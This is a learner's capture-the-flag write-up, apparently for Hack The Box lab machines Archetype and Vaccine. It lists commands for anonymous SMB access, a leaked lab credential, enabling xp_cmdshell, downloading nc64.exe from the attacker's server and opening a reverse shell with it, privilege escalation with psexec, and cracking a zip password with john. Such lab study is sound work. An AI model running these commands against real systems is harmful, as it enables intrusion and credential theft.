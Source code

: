 [[HTB-LABS]] [[Week4]]

# **Archetype**
this what i learn:
1. you can enter `smb` server by `smbclient` , and you can use those flages: `-N` mean **no password** . and can use `-L` to **List service or directory**
2. after we do this , there's some dir show and one of those is `backups` and to enter it
   we can use this command `smbclient -N \\\\{IP}\\backups` by this we will get shell and can use `dir` command to list what in there , then use `get` to download
3. when use `dir` you will find find file its name is `prod.dtsConfig`  and use get to download this file , then if you cat this file you will see code , in this code you will see username `ARCHETYPE\sql_svc` password `M3g4c0rp123` . this is the code 
```
   <DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>

```
4. we will use Impacket ```
```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

5. we will use this script `mssqlclient.py` with this flaags `-windows-auth` :this flag is specified to use Windows Authentication .
   `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth` by then the password and by that you'r connect to sql server and type `help` for help 
   Here's a great article that can guide us further to our exploration journey with MSSQL Server:
   https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

6. and from this cheat-sheet i will use this `SELECT is_srvrolemember('sysadmin');` continue using the cheat-sheet to see , from the command above the result is 1 and that mean it `true` which mean i'm admin or `sysadmin` .
7. after you know you'r admin use this script to enable shell
 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
8.  now we will use this file [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) , but first we need to run Power-Shell because it better than normal command prompt , to do this we will use this command `xp_cmdshell "powershell -c command"`  replace `commnad` with any command you want to perform , i use `pwd` to know where we are , and this is the output `C:\Windows\system32` but we cannot write here , so after some enumeration i know that download will be great 
9. now we need to upload this  [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) file , and for that we will use this 
   command `sudo python3 -m http.server 80` in our terminal , now in the server terminal do this command  `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.58:80/nc64.exe -outfile nc64.exe"` 
   by that we download this file to the server  and to make this file work we will use this command 
   `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.58 443"` by this we make the file work and give it our ip and the port 
   and you should run this on your terminal `nc -lnvp 443` 
10. boom!!! we get reverse shell to the main server, now we went to Desktop to find the user.txt flag , then go to power-shell history 
    `cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
    there we will find this file `ConsoleHost_history.txt` and that have the history of this powershell then perform this command `type ConsoleHost_history.txt` and you will get the user of the admin and the password 

11. after that you can use `psexec.py` from impacket to get in as admin and we use this `ali@Ali:~/impacket/impacket/examples$ sudo python3 psexec.py administrator@10.129.95.187` from that now we'r admin then just go to the admin's Desktop and you will find the root.txt, and done
12. we try to use winPEAS but idont know anything about it so we let it for letter ctf


# **Oopsie**
this what i learn:


# **Vaccine**
this what i learn:

1. the first task about ftb and other thing that we already cover .
2. we found file called `backup.zip` , it can be cat because of the password so we will need to crack it , we will use tool called `john the ripper` but before that we need to convert `backup.zip` to hashes and to do that , there's tool called `zip2john` (it comes with `john the ripper`) and to to that we will use command 
   `zip2john backup.zip > hashes` then use this command to crack it 
   `john --wordlist=/usr/share/wordlist/rockyou.txt hashes` and to show the result we will use this command `john --show hashes`
3. 